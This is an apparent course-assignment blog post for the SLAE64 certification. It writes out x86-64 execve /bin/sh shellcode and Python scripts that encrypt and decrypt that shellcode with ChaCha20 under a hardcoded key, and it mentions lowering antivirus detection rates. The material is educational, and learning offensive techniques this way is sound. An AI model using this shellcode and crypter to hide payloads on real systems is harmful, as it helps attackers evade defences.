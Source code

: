 ```yaml
---
layout: post
title:  "Slae64 Assignment #7"
date:   2018-05-25 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #7

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE64 - 1525

## Assignment

* Create a custom crypter like the one shown in the "crypters" video
* Free to use any existing encryption schema
* Can use any programming language


## Encryption Algorithm

For this task the Chacha20 algorithm has been picked up.
As input it's used the execve-stack.nasm shellcode.
Original shellcode that executes /bin/sh:

```
; Filename: execve-nasm.nasm
; Author:  SLAE64 - 1525
;
; Purpose: execute /bin/sh
BITS 64

global _start

section .text

; settings
SH equ 0x68732f6e69622f2f

; syscall kernel opcodes
SYS_EXECVE equ 0x3b

_start:
    xor rax, rax
    push rax
    pop rdx         
    push rdx
    mov rbx, SH ; build //bin/sh
    push rbx ; copy ¨//bin/sh¨ string to stack
    mov rdi, rsp ; get the address for /bin/sh string
    push rax ; build args array, by pushing NULL
    push rdi ; then pushing string address
    mov rsi, rsp ; args array address
	push SYS_EXECVE
    pop rax
    syscall
```

Converted to opcodes:

```
$ ./compile-execve-stack.sh execve-stack
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05"
```

The final shellcode to use it's the following (we don't add any encoder stub, since the task is focused on encryption, but adding it at this point would help to decrease the detection rate):

```
"\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05"
```

## Algorithm Explanation

ChaCha20 is a stream cipher developed by Daniel J. Bernstein. Its original design expands a 256-bit key into 2^64 randomly accessible streams, each containing 2^64 randomly accessible 64-byte (512 bits) blocks

## Encrypter

Here follows the Chacha20 encrypter which takes as input the shellcode and the encryption key, it gives as output the encrypted shellcode:

```python
#!/usr/bin/python
# Python Chacha20 Crypter
# Author: ID: SLAE64 - 1525
#
# Usage: python Encrypt.py

from Crypto.Cipher import ChaCha20
import base64


def encrypt():
    shellcode = "\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05" # Execve-stack shellcode
    secret = b'G-KaPdSgVkYp3s6v9y$B&E)H@MbQeThW'
    cipher = ChaCha20.new(key=secret)
    crypted_shellcode = cipher.nonce + cipher.encrypt(shellcode)
    return base64.b64encode(crypted_shellcode)


if __name__ == "__main__":
    print encrypt()
```

## Decrypter

Here follows the Chacha20 decrypter which takes as input the encryption key, it gives as output the original shellcode:

```python
#!/usr/bin/python
# Python Chacha20 Decrypter
# Author: ID: SLAE64 - 1525
#
# Usage: python Decrypt.py

from Crypto.Cipher import ChaCha20
import base64


def decrypt():
    encoded_shellcode = base64.b64decode("F4KWN/2CwTuRIBALnZxp1uLp6ZqnJaLPqjb6dZFC3H+jPmiUYiA=") # Encoded Execve-stack shellcode
    secret = b'G-KaPdSgVkYp3s6v9y$B&E)H@MbQeThW'
    msg_nonce = encoded_shellcode[:8]
    ciphertext = encoded_shellcode[8:]
    cipher = ChaCha20.new(key=secret, nonce=msg_nonce)
    return cipher.decrypt(ciphertext)


if __name__ == "__main__":
    shellcode = decrypt()
    encoded = ''
    for x in bytearray(shellcode):
        encoded += '\\x%02x' % x
    print encoded
```

## Proof of execution

Let's encrypt:

```
$ python Encrypt.py 
6NQgwIJKICXUtw9IOnBjfg7Qjn8RQE7yIGii+q8YPe2hIYlAc44=
```

Let's decrypt the shellcode with they key G-KaPdSgVkYp3s6v9y$B&E)H@MbQeThW:

```
$ python Decrypt.py 
\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05
```

As visible we have back the original shellcode.